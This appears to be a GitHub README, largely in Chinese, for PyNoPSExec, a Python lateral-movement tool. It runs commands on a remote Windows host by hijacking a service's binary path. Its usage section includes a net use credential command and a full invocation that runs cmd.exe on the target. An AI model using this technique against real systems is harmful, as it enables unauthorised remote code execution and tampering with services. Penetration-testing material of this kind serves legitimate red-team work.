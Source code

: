 # PyNoPSExec
**A Lateral Movement Tool Learned From SharpNoPSExec  --  Twitter: @juliourena  根据@juliourena大神的SharpNOPsExec项目改写的横向移动工具** 
+ Platform(平台): Windows 10
+ Language(语言): Python2
## 原理简介  
**通过修改服务启动的二进制文件路径，然后启动服务来执行，对服务的要求是：**
+ 没有运行的手动启动或禁止启动的服务
+ 服务没有依赖项
+ 该脚本没有提供服务二进制文件路径恢复功能，需要先记好对应路径，然后可以再次运行该脚本进行恢复，避免服务出问题
## 使用方法  


```bash
net use \\192.168.23.107 "TestPassword@123" /user:testuser
python PyNoPSexec.py  -t 192.168.23.107 -u testuser -p "TestPassword@123" -d test.sec.com -s AppMgmt -e "c:\\windows\\system32\\cmd.exe /c echo hackedbybobac > c:\\bobac.txt"
```
![image](https://user-images.githubusercontent.com/11972644/117527553-82264700-afff-11eb-9850-45ecbd997f98.png)
![image](https://user-images.githubusercontent.com/11972644/117527633-0bd61480-b000-11eb-955e-d8310d463090.png)


